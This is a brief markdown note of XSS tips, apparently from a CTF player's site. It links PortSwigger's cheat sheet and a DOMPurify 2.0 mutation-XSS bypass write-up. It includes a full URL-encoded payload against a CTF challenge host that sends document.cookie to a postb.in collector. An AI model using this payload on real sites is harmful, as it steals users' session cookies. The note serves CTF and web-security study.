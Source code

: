 ```yaml
---
title: "Cross Site Scripting"
description: "A collection of simple XSS tips"
date: 07/10/2019
categories:
 - Web
tags:
 - web
 - xss
---
```



## Cheat sheet

PortSwigger provides a [collection of tags and events](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
to use to find available payload.


## DOMPurify 2.0 bypass

https://research.securitum.com/dompurify-bypass-using-mxss/

```url
http://qual-challs.rtfm.re:8080/?layout=<svg></p><style><a%20id="</style><style>%40keyframes%20slidein%20%7B%7D<%2Fstyle><a%20style%3D%27animation-duration%3A1s%3Banimation-name%3Aslidein%3Banimation-iteration-count%3A2%27%20onanimationiteration%3Ddocument.location=%27https:%2F%2Fpostb.in%2F1570471277352-2268189566675%2F%27+document.cookie><%2Fa>%20">
```
